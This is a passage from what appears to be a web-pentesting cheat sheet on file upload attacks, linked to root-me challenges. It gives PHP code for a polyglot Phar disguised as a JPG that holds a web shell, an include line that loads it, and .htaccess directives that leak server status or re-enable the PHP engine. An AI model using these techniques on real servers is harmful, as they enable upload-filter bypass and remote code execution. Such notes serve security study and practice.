 ➡️ `shell.php` is the file inside the archive.
</div><div>

To create a **Polyglot Phar** <small>(Ex: JPG with \xff\xd8 and \xff\xd9)</small>

```php!
<?php // php --define phar.readonly=0 gen.php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php /*code*/ ?>');
$phar->setStub("\xff\xd8\xff\xd9\n<?php __HALT_COMPILER(); ?>");
$phar->stopBuffering();
```

📚 For reference, `include 'phar://./shell.phar/shell.php';`
</div></div>

<hr class="sep-both">

## .htaccess

<div class="row row-cols-lg-2"><div>

htaccess files may be exploited to perform multiple attacks such as:

* 🗃️ Server Information Disclosure
* 🗺️ Source Code Disclosure
* 📚 File Reading
* 🎣 Open Redirect
* 🤖 Remote Code Execution
* ...

#### htaccess — Server Information Disclosure

[![php_apache_configuration](../../../../_badges/rootme/web_server/php_apache_configuration.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Apache-configuration)

These handler can expose sensitive information about the server.

```apacheconf!
SetHandler server-info
SetHandler server-status # Last URLs fetched, PIDs, Version, VHost
```

#### htaccess — File Upload Configuration Override

[![php_apache_configuration](../../../../_badges/rootme/web_server/php_apache_configuration.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Apache-configuration)

We can try to enable the PHP engine with:

```apacheconf!
php_flag engine on
```
